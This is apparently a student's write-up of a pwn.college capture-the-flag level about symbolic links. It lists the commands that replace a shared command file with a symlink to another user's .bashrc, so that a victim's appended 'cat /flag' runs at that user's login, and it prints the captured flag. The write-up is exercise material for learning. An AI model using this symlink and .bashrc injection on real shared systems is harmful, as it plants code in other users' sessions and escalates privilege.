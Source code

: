 ### Tricky Linking 

In this challenge, when you run `/challenge/victim`, Zardus will add `cat /flag` to that list of commands:

```console
hacker@dojo:~$ /challenge/victim

Username: zardus
Password: **********
zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@dojo:~$ exit
logout

hacker@dojo:~$
```

Recall from the previous level that, having write access to `/tmp/collab`, the `hacker` user can replace that `evil-commands.txt` file. Also remember from [Comprehending Commands](https://pwn.college/linux-luminarium/commands) that files can _link_ to other files. What happens if `hacker` replaces `evil-commands.txt` with a symbolic link to some sensitive file that `zardus` can write to? Chaos and shenanigans!

You _know_ the file to link to. Pull off the attack, and get `/flag` (which, for this level, Zardus can read again!).

**flag:** `pwn.college{gRDnjihKpBi3dKvLsfdTamxM5qA.0VM0EzNxwyNwkzNyEzW}`

Command used: 
- `rm /tmp/collab/evil-commands.txt`
- `ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt`
- `/challenge/victim # to write cat /flag to bashrc`
- `/challenge/victim # to trigger cat`



